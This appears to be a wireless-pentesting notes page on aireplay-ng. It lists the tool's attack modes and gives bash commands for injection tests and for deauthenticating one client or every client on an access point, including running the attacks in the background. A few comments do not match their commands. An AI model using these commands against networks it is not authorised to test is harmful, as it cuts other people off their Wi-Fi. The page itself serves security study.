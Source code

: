 ```yaml
---
description: >-
  Aireplay-ng (Generate-Traffic)
title:  Aireplay-ng (Generate-Traffic)       # Add title here
date: 2023-09-26 08:00:00 -0600                           # Change the date to match completion date
categories: [18 Wireless, Aircrack Suite]                     # Change Templates to Writeup
tags: [wireless, aireplay-ng]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Aireplay-ng 

Aireplay-ng is primarily useful for generating wireless traffic.

Aireplay-ng supports the following attacks. They are listed along with the corresponding number from the tool's documentation.


|ATTACK |	ATTACK NAME |
|--------|-------|
| 0	| Deauthentication |
| 1	| Fake Authentication |
| 2	| Interactive Packet Replay |
| 3	| ARP Request Replay Attack |
| 4	| KoreK ChopChop Attack |
| 5	| Fragmentation Attack |
| 6	| Café-Latte Attack |
| 7	| Client-Oriented Fragmentation Attack |
| 8	| WPA Migration Mode Attack |
| 9	| Injection Test |


```bash
# check if we can inject in visible APs. The injection test measures ping response times to the AP
sudo aireplay-ng -9 wlan0mon 

# check if we can inject in a specific AP
sudo aireplay-ng -e <ap_name> -a <MAC> wlan0mon

# deauth a client (1000000 is a large number of packets, to keep the deauth attack working for a while):
sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon

# To background the command and don't see output
sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon &> /dev/null &

# with "jobs" we can see the jobs backgrounded with &. each has an ID
jobs

# kill all backgrounded aireplay processes.
killall aireplay-ng 

# kill only the first process in the "jobs" list:
kill %1

# To deauth every client connected to a BSSID don't specify a client <MAC>
aireplay-ng --deauth 4 -a <bssid> wlan0mon &> /dev/null &

# Same as above, but without expecting to receive probes
sudo aireplay-ng -e <ap_name> -a <MAC> -D wlan0mon

# if we have two wifi cards, wlan0mon and wlan1mon, card-to-card test, to make sure they can inject. if it says (5/7 error, still can be used to attack an AP)
sudo aireplay-ng -9 -i wlan1mon wlan0mon

```
